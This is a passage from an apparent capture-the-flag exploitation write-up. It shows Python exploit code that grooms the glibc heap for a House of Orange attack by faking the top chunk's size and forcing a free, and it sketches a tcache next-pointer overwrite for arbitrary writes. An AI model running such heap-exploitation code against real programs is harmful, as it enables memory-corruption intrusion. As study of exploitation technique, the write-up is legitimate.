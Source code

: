 This is the basis for the [House of Orange](https://0x434b.dev/overview-of-glibc-heap-exploitation-techniques/#house-of-orange) attack. Pulling it off is somewhat tricky mainly because of [an assert](https://elixir.bootlin.com/glibc/glibc-2.39/source/malloc/malloc.c#L2599) that expects the end of the top to be page aligned, and because we'll want to control the size of the freed' allocation:

```python
def free(size):
    assert(size & 0xF == 0)
    nonlocal top, heap_base, heap_size
    p.send(b"b8")
    p.send(b"a" * 0xb0)
    p.send(b"bbbbbbbb")

    top += 0xc0

    # Page-align top
    p.send(p64((0x1000 - (top & 0xFFF) | 1)))
    p.send(b"\n")

    while (top & 0xFFF < 0xE00):
        p.send(b"f0\n")
        top += 0x100

    while (top & 0xFFF < 0xF00 - size):
        p.send(b"30\n")
        top += 0x40

    # Leave just enough space for a chunk of size 'size'
    alloc_size = 0x1000 - (top & 0xFFF) - size - 0x28
    p.send(("%02X" % alloc_size).encode('utf-8'))
    p.send(b"\n")
    top += alloc_size

    # Now allocate a chunk that's too big
    p.send(b"f0\n")
    top = heap_base + heap_size + 0x100
    heap_size += 0x22000
    print(hex(top), hex(heap_size))
```

On its own, being able to free doesn't give us any new abilities. However, it lets us make the heap data structures more interesting.

Since we're dealing with small allocations, we mainly care about the tcache and smallbins. When an allocation is freed, if the appropriate tcache bin has less than 7 entries, it's pushed onto the head of the tcache; otherwise, it goes in the fastbins. Since we can break the pointer protection on the tcache, we can fairly easily create an arbitrary write gadget by overflowing into the `next` pointer of a free'd chunk. However, we don't have the addresses of anything except the heap, so this won't do us much good yet.

# Overwriting the Stack Without a Leak
